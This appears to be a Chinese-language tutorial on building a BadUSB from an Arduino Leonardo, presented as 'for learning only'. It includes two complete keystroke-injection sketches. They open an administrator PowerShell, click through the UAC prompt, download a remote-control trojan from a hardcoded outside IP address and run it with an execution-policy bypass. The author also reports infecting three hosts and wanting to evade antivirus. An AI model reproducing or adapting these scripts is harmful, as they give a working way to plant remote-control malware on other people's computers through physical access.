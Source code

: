 # 前言

最近闲来无事,突然先买个badusb了解学习一下,就做了一个badusb,仅作为学习目的

# badusb的制作

直接利用Arduino IDE

https://downloads.arduino.cc/arduino-1.8.16-windows.zip

因为我买的时候leonardo的板子,所以就不用再去下载digispark的开发板管理器和驱动了

leonerdo的驱动是自带的,就在安装包的drivers目录下

![image-20220125132932556](images/1.png)

安装驱动后插入badusb,会有相应的串口

![image-20220125133110833](images/2.png)

我这里是COM5,开发板选择Arduino Leonardo

如果是digispark的板子,就需要去在首选项添加附加开发板管理器地址

![image-20220125133252306](images/3.png)

然后打开开发板管理器

![image-20220125133401407](images/4.png)

在贡献这一栏中找到Digistump AVR Boards,如果没找到的话可以挂外网试试

![image-20220125133435823](images/5.png)

回到正题,我买的是Leonardo的板子,代码和digispark的也有点不同

```
#include <Keyboard.h>
void setup() {
  Keyboard.begin();//开始键盘通讯 
delay(3000);//延时 
Keyboard.press(KEY_LEFT_GUI);//win键 
delay(500);
Keyboard.press('r');//r键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r');
Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.println("powershell Start-Process powershell -Verb runAs");
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(2000);
Keyboard.press(KEY_LEFT_ALT);//alt
delay(500);
Keyboard.press('y');
delay(500);
Keyboard.release(KEY_LEFT_ALT);
Keyboard.release('y');
delay(500);
Keyboard.println("$clnt = new-object system.net.webclient;");
Keyboard.println("$url= 'http://47.93.248.221/payload1.ps1';");  //远程服务器ps1远控地址
Keyboard.println("$file = 'c:\\payload1.ps1';");      //下载到目标存放文件的地址
Keyboard.println("$clnt.downloadfile($url,$file);");  //采用分段执行绕过防火墙进程防护
Keyboard.println("powershell.exe -executionpolicy remotesigned  -file 'c:\\payload1.ps1'"); //本地权限绕过执行木马脚本
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK);
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯

}

void loop() {
// put your main code here, to run repeatedly:

}
```

代码的流程

```
1.win+r打开运行窗口
2.开启大写绕过输入法,不然会输出中文导致失败
3.输入powershell Start-Process powershell -Verb runAs以管理员身份运行powershell
4.alt+y在弹出的窗口点击是以打开管理员权限的powershell
5.输入下载的命令($clnt = new-object System.Net.WebClient;$url='http://47.93.248.221/payload1.ps1';$file = 'c:\\payload1.ps1';$clnt.DownloadFile($url,$file);)
6.输入powershell.exe -executionpolicy remotesigned  -file 'c:\\payload1.ps1'以powershell运行下载下来的powershell木马
```

这些只是大致需要的,可以根据自己的需求对应的修改,比如说运行马儿后退出powershell等等

因为输入法的原因,所以在插入的时候键盘应该是英文并且是小写

制作好后点击向右的箭头上传代码到badusb

![image-20220125134336009](images/6.png)



# 实验

插入3台主机的上线效果

![image-20220125134548949](images/7.png)





```
#include <Keyboard.h>
void setup() {  
Keyboard.begin();                                                            //开始键盘通讯 
delay(3000);//延时 
Keyboard.press(KEY_LEFT_GUI);//win键 
delay(500);
Keyboard.press('r');//r键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r');
Keyboard.press(KEY_CAPS_LOCK);                                                //利用开大写输小写绕过输入法
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.println("CMD ");              //无回显
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(500);
Keyboard.println("powershell Start-Process powershell -Verb runAs");
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(3000);
Keyboard.press(KEY_LEFT_ALT);//alt
delay(500);
Keyboard.press('y');
delay(500);
Keyboard.release(KEY_LEFT_ALT);
Keyboard.release('y');
delay(500);
Keyboard.println("$clnt = new-object system.net.webclient;");
Keyboard.println("$url= 'http://47.93.248.221/badusb.exe';");  //远程服务器ps1远控地址
Keyboard.println("$file = 'c:\\badusb.exe';");      //下载到目标存放文件的地址
Keyboard.println("$clnt.downloadfile($url,$file);");  //采用分段执行绕过防火墙进程防护
delay(200); 
Keyboard.println("exit"); 
delay(200);
Keyboard.println("EXIT");
delay(200);
Keyboard.println("exit");
delay(200);
Keyboard.println("EXIT");
delay(500);
Keyboard.press(KEY_LEFT_GUI);                                                //win键 
delay(500);
Keyboard.press('r');                                                        //r键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r'); 
Keyboard.println("CMD");
delay(300);                                                             //本地权限绕过执行木马脚本
Keyboard.println("c:\\badusb.exe");
delay(200);
Keyboard.println("EXIT");
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK); 
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();                                                                        //结束键盘通讯 
}

void loop() {}
```

badusb没有问题，可能需要重新做一下免杀，能过的越多，那就越强，之前能过360和火绒的马现在也不能过了
